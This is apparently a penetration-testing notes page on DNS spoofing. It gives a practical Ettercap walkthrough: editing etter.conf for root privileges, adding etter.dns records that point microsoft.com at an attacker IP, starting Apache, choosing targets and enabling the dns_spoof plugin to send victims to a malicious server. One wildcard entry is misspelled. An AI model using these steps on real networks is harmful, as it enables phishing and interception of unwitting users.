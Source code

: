 # DNS

## DNS Spoofing

Domain Name Server (DNS) spoofing, or DNS cache poisoning, is an attack involving manipulating DNS records to redirect users toward a fraudulent, malicious website that may resemble the user's intended destination.



***

## Practical

### Modify etter.conf

```
sudo nano /etc/ettercap/etter.conf

# Change the [privs] value to 0
ec_uid = 0
ec_gid = 0

# Now scroll down until you find the heading that says Linux and under that remove both the # signs below where it says "if you use iptables".

```

### Modify etter.dns

```
sudo nano /etc/ettercap/etter.dns

# Add the following lines for dns poisoning
microsoft    A    <Attacker Server IP>
*.mirosoft    A    <Attacker Server IP>
```

### Start Apache2 Server

```
sudo service apache2 start
```

### DNS Spoofing Using Ettercap

1. **Start Ettercap**

```
sudo ettercap -G
```

2. **Scan for Hosts**

```
Click on three dots in the right top corner

Click on Hosts -> Scan for hosts
```

3. **List Scanned Hosts**

```
Click on three dots in the right top corner

Click on Hosts list
```

3. **Add Targets**

```
Select the target and Add to Target1
```

4. **Activate dns\_spoof Plugin**

```
Click on three dots in the right top corner

Click on Plugins -> Manage plugins

Double click on dns_spoof
```

{% hint style="info" %}
Now when the victim visits the **microsoft.com** then he/she will be redirected to our malicious server.
{% endhint %}



***

## REFERENCES

* [https://null-byte.wonderhowto.com/how-to/tutorial-dns-spoofing-0167796/](https://null-byte.wonderhowto.com/how-to/tutorial-dns-spoofing-0167796/)
